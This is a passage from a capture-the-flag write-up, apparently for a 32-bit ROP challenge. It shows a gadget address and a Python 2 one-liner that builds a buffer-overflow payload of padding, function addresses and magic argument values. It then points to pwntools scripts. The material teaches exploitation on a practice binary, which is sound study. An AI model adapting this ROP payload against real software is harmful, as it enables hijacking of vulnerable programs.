 This one `0x080487f9: pop esi; pop edi; pop ebp; ret;` fits the description quite well.

Now let's see put it all together:

```bash
python2 -c '
print "a"*44 + \
      "\xf0\x84\x04\x08" + \
      "\xf9\x87\x04\x08" + \
      "\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0" + \
      "\x50\x85\x04\x08" + \
      "\xf9\x87\x04\x08" + \
      "\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0" + \
      "\xe0\x84\x04\x08" + \
      "\xf9\x87\x04\x08" + \
      "\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0" + \
      "CCCC" \
' > payload
```

That was a pain to write, thank god for pwntools.
If you're wondering where I got the function addresses from, you can find them in Ghidra in the `.got.plt` section or when you run `info functions` on GDB.

### Pwntools

Check out `exploit.py` and `exploit_rop.py`.
